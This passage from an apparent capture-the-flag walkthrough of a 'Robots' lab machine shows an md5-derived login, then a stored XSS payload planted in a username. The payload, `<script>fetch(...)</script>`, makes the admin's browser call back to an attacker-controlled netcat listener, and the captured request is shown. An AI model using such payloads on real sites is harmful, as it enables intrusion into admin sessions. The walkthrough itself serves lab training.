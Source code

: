 We can generate a md5 by running `echo -n 'test1111' | md5sum `, for me for the user test and the birth date, you guessed it `11/11/1111`, this will provide use with the dashboard page.

![](/assets/blog/Robots/dash1.png)

## XSS to admin user

You may notice that the username is displayed and on the registration page stood that the users are monitored by the admin user, this gave me the idea that there may be a XSS vulnerability with the username. To test that I added the following user, I and started a listener with `nc -lvnp 9001`:
```html
<script>fetch("http://10.14.78.229:9001/")</script>
```

You don't even need to login and get a request back from the admin which is connecting to us, via our XSS payload.

```terminal
$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.14.78.229] from (UNKNOWN) [10.10.181.45] 50486
GET / HTTP/1.1
Host: 10.14.78.229:9001
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/127.0.6533.119 Safari/537.36
Accept: */*
Origin: http://robots.thm
Referer: http://robots.thm/
Accept-Encoding: gzip, deflate
```

If you login you will also notice that our payload is rendered as HTML:

